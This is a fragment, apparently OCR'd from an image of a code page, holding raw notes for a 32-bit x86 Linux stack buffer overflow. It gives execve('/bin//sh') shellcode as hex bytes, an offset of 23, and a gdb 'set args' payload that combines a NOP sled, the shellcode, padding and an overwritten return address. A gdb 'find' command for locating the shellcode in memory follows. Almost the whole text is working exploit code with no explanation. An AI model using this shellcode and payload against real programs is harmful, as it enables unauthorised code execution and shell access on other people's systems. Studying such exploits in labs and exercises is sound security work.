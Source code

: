 "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

Offset 23

set args $(python -c 'print 40*"\x90" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"') $(python -c 'print 23*"A" + "\x08\xf8\xff\xbf"')

(gdb) find /b $esp, +1000, 0x6a, 0x0b, 0x58, 0x99, 0x52, 0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0x31, 0xc9, 0xcd, 0x80